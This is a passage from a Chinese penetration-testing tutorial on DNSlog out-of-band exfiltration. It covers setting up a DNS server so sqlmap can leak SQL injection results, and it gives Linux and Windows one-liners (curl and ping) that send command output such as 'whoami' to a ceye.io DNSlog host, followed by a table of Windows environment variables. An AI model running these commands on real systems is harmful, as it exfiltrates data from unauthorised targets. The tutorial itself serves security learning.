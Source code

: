 ```
END;
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

### SQLMap配合DNSlog
&emsp;SQLmap也支持dnslog注入，就是给一个域名，然后SQLmap就会把语句里面的域名换成我们自己定义的，所以我们也可以用dnslog平台，当然网络上免费的dnslog平台一般都会有条目限制，所以我们最好还自己整dnslog平台，或者自己注册一个域名服务器，把请求指向我们的域名服务器就可以了。

**材料准备：**
* 域名两个
* 外网VPS一台（Ubuntu，作为域名服务器）

我准备的域名是：52stu.me(注入语句的时候用的)、52stu.org(接收解析请求)

我准备的VPS是：Ubuntu 18.04，测试的时候Debian 9 x64 失败。

**跟着操作：**
1. 把52stu.org注册为DNS服务器，，并增加一条A记录，主机头为：`*`，指向VPS。
    ```
    ns1.52stu.org
    ns2.52stu.org
    ```
2. 把52stu.me的域名服务器设置成为52stu.org的DNS服务器域名。
3. 在VPS下载sqlmap并启动sqlmap目录下的`dns.py`，目录为：`lib/request`。
4. 任意机器启动SQLmap注入：`sqlmap -u "http://vul.dark5.net/vul.php?id=1" --dns-domain=52stu.me`
5. 结果就会出现在VPS上。
    ```
    root@vultr:~/sqlmap/lib/request# python dns.py
    [i] 21111.52stu.me.
    [i] 21111.52stu.me.
    [i] 52stu.me.
    [i] 2222.52stu.me.
    [i] 2222.52stu.me.
    [i] 222.52stu.me.
    [i] 2x22.52stu.me.
    [i] 52stu.me.
    ```


### 命令执行
* Linux
```
curl http://ip.port.b182oj.ceye.io/`whoami`
ping -c 1 `whoami`.ip.port.b182oj.ceye.io
```

* Windows
```
ping %USERNAME%.b182oj.ceye.io

变量                     类型       描述
%ALLUSERSPROFILE%        本地       返回“所有用户”配置文件的位置。
%APPDATA%                本地       返回默认情况下应用程序存储数据的位置。
%CD%                     本地       返回当前目录字符串。
%CMDCMDLINE%             本地       返回用来启动当前的 Cmd.exe 的准确命令行。
%CMDEXTVERSION%          系统       返回当前的“命令处理程序扩展”的版本号。
%COMPUTERNAME%           系统       返回计算机的名称。
%COMSPEC%                系统       返回命令行解释器可执行程序的准确路径。
%DATE%                   系统       返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。
%ERRORLEVEL%             系统       返回上一条命令的错误代码。通常用非零值表示错误。
%HOMEDRIVE%              系统       返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
%HOMEPATH%               系统       返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
%HOMESHARE%              系统       返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
%LOGONSERVER%            本地       返回验证当前登录会话的域控制器的名称。
%NUMBER_OF_PROCESSORS%   系统       指定安装在计算机上的处理器的数目。
```